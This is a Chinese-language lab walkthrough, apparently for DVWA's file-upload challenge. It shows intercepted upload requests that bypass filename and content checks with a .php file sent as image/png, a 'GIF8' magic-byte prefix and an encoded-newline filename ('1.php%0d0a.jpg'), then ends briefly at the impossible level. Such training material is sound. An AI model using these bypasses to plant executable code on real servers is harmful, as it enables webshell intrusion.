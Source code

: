 # 文件上传

### 中等级

首先上传一个正常的图片格式,拦截请求

```http
// http

------WebKitFormBoundarycJvSDaue95Wxcq5z
Content-Disposition: form-data; name="uploaded"; filename="1.png"
Content-Type: image/png

PNG
```

首先尝试后端是否限制文件名

```
// http

------WebKitFormBoundarycJvSDaue95Wxcq5z
Content-Disposition: form-data; name="uploaded"; filename="1.php"
Content-Type: image/png

PNG
```

没有限制文件名,  接着测试 后端是否验证了文件的元信息. 全部删除图片的内容,添加一句简单php代码

```
// 
Content-Disposition: form-data; name="uploaded"; filename="1.php"
Content-Type: image/png

<?php echo("hello")?>

```

直接上传成功,并且能正常访问

### 高等级

&#x20;发送一个简单的图片后,拦截请求



1. 修改文件后缀, 不能上传

```http
// http

Content-Disposition: form-data; name="uploaded"; filename="trtggile.php"
Content-Type: image/png
```

2. 添加.png到文件名中,不能上传

```http
// http
Content-Disposition: form-data; name="uploaded"; filename="trtggile.png.php"
Content-Type: image/png
```

3. 看来只能 以jpg格式结尾, 那么就利用字符注入  ,我使用了,文件可以上传成功,也能成功访问

```http
// http
------WebKitFormBoundaryJSu5Ym5oUtVKfFCF
Content-Disposition: form-data; name="uploaded"; filename="1.php%0d0a.jpg"
Content-Type: image/png

GIF8<?php echo("hello")?>
```

<figure><img src=".gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

虽然后端通过了一下代码校验了 文件的`memi` 校验了文件的后缀名

```php
// php
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) )
```

### 不可能

可以看到,每个请求将带上一个token&#x20;

<figure><img src=".gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

还将名字随机了,这样没法通过字符编码注入了,果断看一下

<figure><img src=".gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>


